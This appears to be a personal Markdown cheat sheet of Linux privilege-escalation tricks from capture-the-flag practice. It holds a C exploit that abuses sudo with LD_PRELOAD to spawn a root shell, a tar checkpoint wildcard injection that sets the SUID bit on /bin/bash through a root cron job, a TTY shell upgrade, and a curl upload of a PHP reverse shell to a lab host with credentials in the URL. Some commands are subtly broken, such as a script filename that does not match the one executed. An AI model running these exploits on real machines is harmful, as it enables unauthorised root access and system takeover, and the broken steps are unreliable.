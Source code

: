 # MongoDB
Start by typing mongo and then type help to look for the options, see below an example
```
mongo
show dbs
use backup
show collections
db.collections.find()
db.user.find()

```

# sudo -l 
If you see the following append to the PATH:
```console
env_keep+=LD_PRELOAD
```
and have sudo binary like:
```console
(ALL : ALL) NOPASSWD: <binary>
```
Then run the following exploit.c file:
```console
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
Compile as follows:
```console
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```
Run it as follows:
```console
sudo LD_PRELOAD=./exploit.so /usr/bin/sky_backup_utility
```
Abusing a root cronjob to set the SUID bit to the executable /bin/bash  
```console
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.s
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

# Ewout tips:
To update shell
```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo fg
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
```
